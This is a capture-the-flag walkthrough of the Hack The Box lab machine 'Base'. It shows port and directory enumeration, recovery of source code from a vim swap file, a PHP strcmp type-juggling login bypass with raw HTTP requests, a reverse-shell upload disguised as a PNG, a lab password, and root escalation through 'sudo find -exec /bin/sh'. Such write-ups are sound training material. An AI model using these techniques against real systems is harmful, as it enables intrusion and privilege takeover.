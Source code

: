 ```yaml
---
title: Base - A HackTheBox machine 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
  - php type juggling
  - reverse shell
  - suid binary
  - linux privilege escalation
---
```


# Base - A Hack The Box machine

Enumerate open ports and services.

```bash
nmap -sC -sV $ip -Pn
```

Ports 22 and 80 are open.

Add base.htb to /etc/hosts.

Enumerate directories:

```bash
gobuster dir -u http://base.htb/login -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/big.txt
```

Some file and folders uncovered:

```
- http://base.htb/_uploaded/
- http://base.htb/login/
- http://base.htb/login/login.php
- http://base.htb/forms/
- http://base.htb/assets/
- http://base.htb/logout.php
```

Under  /login there are three files: login.php, config.php and login.php.swp. There are two ways of reading the swap file, with strings and with vim:


```bash
vim -r login.php.swp
# -r  -- list swap files and exit or recover from a swap file

```

Content:

```
<?php
session_start();
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: /upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }
}
```


Quoting from the article [PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09): "When comparing values, always try to use the type-safe comparison operator “===” instead of the loose comparison operator “==”. This will ensure that PHP does not type juggle and the operation will only return True if the types of the two variables also match. This means that (7 === “7”) will return False."

My notes about [php type jugling](webexploitation/php-type-juggling-vulnerabilities). 


In the HackTheBox machine Base, login form was bypasseable by entering an empty array into the username and password parameters:

```
Original request


POST /login/login.php HTTP/1.1
Host: base.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://base.htb
Connection: close
Referer: http://base.htb/login/login.php
Cookie: PHPSESSID=sh4obp53otv54vtsj0g6tev1tt
Upgrade-Insecure-Requests: 1

username=admin&password=admin

```


```
Crafted request:

POST /login/login.php HTTP/1.1
Host: base.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://base.htb
Connection: close
Referer: http://base.htb/login/login.php
Cookie: PHPSESSID=sh4obp53otv54vtsj0g6tev1tt
Upgrade-Insecure-Requests: 1

username[]=admin&password[]=admin
```

How to know? By spotting the file login.php.swp in the /login exposed directory and reading its contents.

After sending request with BurpSuite, grab the PHPsession cookie and in your browser enter that cookie and go to: http://base.htb/upload.php. Now you can upload our [pentesmonkey shell](pentesmonkey.md) using BurpSuite Repeater (important note: change header to "Content-Type: image/png", file extension may remain php). Have your netcat listener ready.


```bash
whoami
```

```
www-data
```

Credentials can be found at /var/www/html/login/config.php. Use them to login as the existing user at /home

```bash
su john
# enter password: thisisagoodpassword
```

Once you are john, you have access to user.txt. Also, to be root:

```bash
id
sudo -l
```

```
ohn@base:~$ sudo -l
sudo -l
[sudo] password for john: thisisagoodpassword

Matching Defaults entries for john on base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find
```


See [cheat sheet about suid binaries](suid-binaries.md) and:

```bash
sudo find . -exec /bin/sh \; -quit
```

Now you are root and can echo /root/root.txt
